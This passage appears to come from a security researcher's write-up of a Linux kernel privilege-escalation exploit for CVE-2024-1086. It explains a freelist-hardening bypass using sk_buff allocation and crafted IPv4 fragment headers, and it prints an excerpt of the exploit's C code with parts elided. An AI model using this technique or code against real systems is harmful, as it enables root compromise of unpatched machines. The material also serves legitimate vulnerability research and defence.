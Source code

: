 In order to bypass `CONFIG_FREELIST_HARDENED`'s naive double-free detection in the SLAB freelists, we simply allocate an `struct sk_buff` from the freelist<sup>[1]</sup> before the double-free<sup>[[2](https://github.com/Notselwyn/security-research/blob/a4da96327b8bd940e4d5ae0c565d060b11e54ce7/pocs/linux/kernelctf/CVE-2024-1086_lts_mitigation/exploit/lts-6.1.72/src/exploit.c#L362)]</sup>, which we free (append to the freelist)<sup>[[3](https://github.com/Notselwyn/security-research/blob/a4da96327b8bd940e4d5ae0c565d060b11e54ce7/pocs/linux/kernelctf/CVE-2024-1086_lts_mitigation/exploit/lts-6.1.72/src/exploit.c#L368)]</sup> in between the double-free.

#### `df_ip_header` explanation

The variable `df_ip_header` is the content of the IPv4 packets sent to the kernel from userland by the exploit to shape the memory. It contains standardized IPv4 packet fields like `ip_v` (IP version used by the packet), `ip_hl` (IP header length divided by 4 bytes: in this case 20 bytes so `ip_hl = 20 / 4 = 5`), `ip_tos`, and `ip_ttl`. 

Other fields are cherrypicked for the exploit: 
- `ip_len`, `ip_id`, and `ip_off` (used for skb freelist shaping, see arbitrary skb free technique)
- `ip_p` (arbitrary protocol number: should be unused, as it is used to filter the double free packet in the nftables rule)
- `ip_src` and `ip_dst` (used to bypass corruption because `skb->dst` is corrupted due to double-free)

```c
static void privesc_flh_bypass(struct shared_info *memdump_info)
{
    // ... (var declarations)
	struct ip df_ip_header = {
		.ip_v = 4,
		.ip_hl = 5,
		.ip_tos = 0,
		.ip_len = 0xDEAD,
		.ip_id = 0xDEAD,
		.ip_off = 0xDEAD,
		.ip_ttl = 128,
		.ip_p = 69,
		.ip_src.s_addr = inet_addr("1.1.1.1"),
		.ip_dst.s_addr = inet_addr("255.255.255.255"),
	};
	int child_pid;

    // ... (setup)

	set_ipfrag_time(1);

	// ... (setup)

	pin_cpu(0);
	child_pid = fork();

	if (child_pid == 0) {
        // ... (more exploit stuff)
    } else {
#if CONFIG_FLC_BYPASS
		set_ipfrag_time(1);

		// will expire naturally after 1 second
		df_ip_header.ip_id = 0x1334;
		df_ip_header.ip_len = sizeof(struct ip)*2 + 8*2 + 8;
		df_ip_header.ip_off = ntohs((0 >> 3) | 0x2000);
		alloc_intermed_buf_hdr(8, &df_ip_header);  // [1]

		// make sure df trigger packet doesn't get expired while waiting for skb5 to be freed
		set_ipfrag_time(999);
#endif
        // ... (do double-free)
```